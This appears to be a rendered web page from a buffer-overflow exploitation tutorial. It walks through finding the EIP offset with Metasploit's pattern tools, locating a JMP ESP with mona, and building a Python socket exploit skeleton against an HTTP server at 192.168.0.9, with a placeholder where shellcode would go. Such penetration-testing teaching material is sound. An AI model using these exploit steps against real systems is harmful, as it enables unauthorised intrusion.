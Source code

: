 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer='STRING'
try:
    print "\nSending evil buffer..."
    s.connect(('192.168.0.9', 80))
    s.send('GET ' + buffer + '\r\n\r\n')
    print s.recv(1024)
    print "\nDone!."
except:
    print "Could not connect"</code></pre>
                    <li><span>Send the payload and find the value of EIP, and find the exact length needed with:</span></li>
                <pre><code>$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l STRING_LENGTH(2700) -q EIP_VALUE(37694236)

[*] Exact match at offset 2606</code></pre>
                    <li><span>We know that the buffer size before the EIP is 2606.</span></li>
                </ul>
        </fieldset>
        <fieldset class='box'>
            <a name='Finding a JMP ESP'></a>
            <legend>Finding a JMP ESP</legend>
                <ul>
                    <li><span>Our objective is to inject a shellcode in beginning of the stack, replace the <strong>EIP</strong> with the address of the <strong>ESP</strong> and get the execution flow redirected to our shellcode. The problem is that the amount of data loaded in the stack changes at every execution, so we can not predict the value of the ESP address. We can work around this by finding a JMP ESP instruction in memory from a module that has no <strong>DES</strong> or <strong>ASLR</strong>, and change our EIP to point to that address.</span></li>
                    <li><span>To find the modules that don't have ASLR and DES, you can run within the ImmunityDebugger:</span></li>
                <pre><code>!mona modules</code></pre>
                    <li><span>Now, you can see how the asm <strong>JMP_ESP</strong> looks like in machine code by running:</span></li>
                <pre><code># /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm &gt; jmp esp
    00000000 FFE4 jmp esp
nasm &gt;</code></pre>
                    <li><span>Now you can find <strong>FFE4</strong> with:</span></li>
                <pre><code>!mona find -s '\xff\xe4' -m module.dll</code></pre>
                    <li><span>It will find some addrs such as <strong>0x5f4a358f</strong>, since x86 is little endian, to have it properly read from the stack we need to encode it as <strong> \x8f\x35\x4a\x5f</strong>.</span></li>
                    <li><span>We will add our shellcode after the EIP JMP instruction (of about 400 bytes), so our payload will look like:</span></li>
                <pre><code>Padding + JMP ESP + shellcode</code></pre>
                    <li><span>Using the previous buffer size and address:</span></li>
                <pre><code>'A' * 2606 + \x8f\x35\x4a\x5f + 'C' * 400</code></pre>
                    <li><span>So, the new exploit looks like this:</span></li>
                <pre><code>import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = 'A' * 2606 + \x8f\x35\x4a\x5f + 'C' * 400
try:
    print "\nSending evil buffer..."
    s.connect(('192.168.0.9', 80))
    s.send('GET ' + buffer + '\r\n\r\n')
    print s.recv(1024)
    print "\nDone!."
except:
    print "Could not connect"</code></pre>